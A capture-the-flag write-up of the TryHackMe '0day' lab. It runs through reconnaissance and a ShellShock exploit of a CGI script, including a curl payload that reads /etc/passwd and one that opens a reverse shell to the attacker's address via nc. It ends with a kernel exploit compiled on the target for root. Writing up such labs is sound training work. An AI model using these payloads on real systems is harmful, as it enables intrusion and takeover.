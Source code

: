 # 0day

---

Platform: Tryhackme

Difficulty: Medium

Date: 03/07.2025

Status: Rooted

---

Nmap scan:

```bash
┌──(kali㉿kali)-[~/tryhackme/0day]
└─$ sudo nmap -Pn -O -sC -A -p- --min-rate=3000 10.10.216.81 -oN nmap.full
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 09:17 EDT
Nmap scan report for 10.10.216.81
Host is up (0.42s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Port 22: Open ssh
- Port 80: http Apache httpd 2.4.7 ((Ubuntu))

### Port 80:

![image.png](image.png)

Just a profile page of ryan motgomery(0day), noting unusual here. Not seeing anything which could be exploitable here. So, next step would be source code review, directory bruteforcing via ffuf and nikto scan for finding underlying technologies.

First of all, if we see source code, there is nothing unusual and no unusual comments developers left here. 

![image.png](image%201.png)

Let’s bruteforce directories with ffuf:

```bash
┌──(kali㉿kali)-[~/tryhackme/0day]
└─$ ffuf -u http://10.10.216.81/FUZZ -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic
```

![image.png](image%202.png)

There are some directories running with the application, we have to check them one by one.

The most interesting directory was /backup , there we can see an id_rsa content file, so tried putting in our system give it 600 permission at tried to connect to user ryan via ssh, but that id_rsa file was encrypted, so have to decrypt it using ssh2john tool, here we got success and found passphrasse for that file. Again tried to connect to ssh but here comes the twist.

![image.png](image%203.png)

![image.png](image%204.png)

![image.png](image%205.png)

in Linux typically occurs when you're trying to connect to an **SSH server** using a **public key**, but your **SSH client and server cannot agree on a matching key algorithm or signature type** to use for authentication.

That means, it was just a rabbit hole, we have to look for something else to gain initial access.

Nikto scan:

![image.png](image%206.png)

This indicates that there’s a file called `test.cgi` in the `/cgi-bin/` directory which might be vulnerable to [ShellShock](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271) — a devastating vulnerability which affects older versions of Bash. CGI files are used by the webserver to execute commands in a native scripting language — in this case, that means that our `test.cgi` file will be running Bash commands. With vulnerable versions of bash, injecting a function definition (`(){ :;};`) into the input of such a script would force the script to execute any subsequent commands. Like so:

```bash
curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd;" http://10.10.216.81/cgi-bin/test.cgi
```

![image.png](image%207.png)

Successfully exploited shellshock vulnerability.

You can read more about this vulnerability here:

[https://github.com/opsxcq/exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)

---

### Initial access

We can now use that vulnerability to gain reverse shell. let’s try:

```bash
┌──(kali㉿kali)-[~/tryhackme/0day]
└─$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.87.131 4445 >/tmp/f'" \                          
http://10.10.216.81/cgi-bin/test.cgi

┌──(kali㉿kali)-[~/tryhackme/0day]
└─$ rlwrap -f . -r nc -nvlp 4445
listening on [any] 4445 ...
connect to [10.17.87.131] from (UNKNOWN) [10.10.216.81] 58565
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
....
www-data@ubuntu:/home/ryan$ ls -la
ls -la
total 28
drwxr-xr-x 3 ryan ryan 4096 Sep  2  2020 .
drwxr-xr-x 3 root root 4096 Sep  2  2020 ..
lrwxrwxrwx 1 ryan ryan    9 Sep  2  2020 .bash_history -> /dev/null
-rw-r--r-- 1 ryan ryan  220 Sep  2  2020 .bash_logout
-rw-r--r-- 1 ryan ryan 3637 Sep  2  2020 .bashrc
drwx------ 2 ryan ryan 4096 Sep  2  2020 .cache
-rw-r--r-- 1 ryan ryan  675 Sep  2  2020 .profile
-rw-rw-r-- 1 ryan ryan   22 Sep  2  2020 user.txt
www-data@ubuntu:/home/ryan$ cat user.txt
cat user.txt
THM{REDACTED}
```

---

### Privilege Escalation

If we look at hint on this room - “This is a very old operating system you've got here, isn't it?..”

Looks like intended way to gain higher privilege in this machine is kernel exploit, so let’s check our OS and kernel version, if gcc is present in our target machine and will try to find exploit for that.

```bash
www-data@ubuntu:/home/ryan$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/home/ryan$ gcc
gcc
gcc: fatal error: no input files
compilation terminated.

www-data@ubuntu:/home/ryan$ cat /etc/*-release
cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.1 LTS"
NAME="Ubuntu"
VERSION="14.04.1 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.1 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
www-data@ubuntu:/home/ryan$ gcc --version
gcc --version
gcc (Ubuntu 4.8.4-2ubuntu1~14.04.4) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

Let’s search for exploit available on searchsploit for our target OS and kernel version:

![image.png](image%208.png)

First one, looks perfect for our requirements, let’s grab that exploit to our current working directory.

![image.png](image%209.png)

Transfer it to target machine:

```bash
┌──(kali㉿kali)-[~/tryhackme/0day]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@ubuntu:/tmp$ wget http://10.17.87.131/37292.c
wget http://10.17.87.131/37292.c
--2025-07-03 06:52:55--  http://10.17.87.131/37292.c
Connecting to 10.17.87.131:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: '37292.c'

100%[======================================>] 4,968       --.-K/s   in 0.002s  

2025-07-03 06:52:55 (3.07 MB/s) - '37292.c' saved [4968/4968]
```

Now compile it.

```bash
www-data@ubuntu:/tmp$ gcc 37292.c -o exploit
gcc 37292.c -o exploit
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

Error in compilation, let’s look what it it for?

Essentially, the PATHs used in this version of Ubuntu are more than a little wonky, resulting in `gcc` being unable to find `cc1` — the program responsible for converting C code into assembler. To fix this we need to get our PATH variable inline with a standard Ubuntu PATH, which we do with the following command:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Let’s try to compile and run that exploit again.

![image.png](image%2010.png)

Now it worked! And we were root now!

Last task:

```bash
# cat root.txt
cat root.txt
THM{REDACTED}
```

That’s it for this machine.✅